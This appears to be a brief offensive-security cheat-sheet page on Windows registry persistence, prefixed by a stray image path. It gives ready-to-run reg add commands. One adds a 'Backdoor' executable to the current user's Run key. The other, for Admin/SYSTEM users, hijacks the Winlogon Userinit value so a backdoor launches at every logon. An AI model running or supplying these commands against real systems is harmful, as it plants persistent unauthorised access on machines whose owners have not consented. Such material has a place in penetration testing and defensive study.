 # Registry Persistence

Providing the current working user has permission to create registry keys under 

    'HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run' . 
    
A backdoor executable / script can be created to run on user logon.

The example below assumes a Backdoor executable is currently stored in 

    "C:\Users\%username%\AppData\Roaming\"

### 1) Cmd

    reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\Users\%username%\AppData\Roaming\backdoor.exe"

If we have Admin/SYSTEM permissions, we can plant a backdoor here:

    reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, C:\Users\Administrator\AppData\Roaming\backdoor.exe" /f

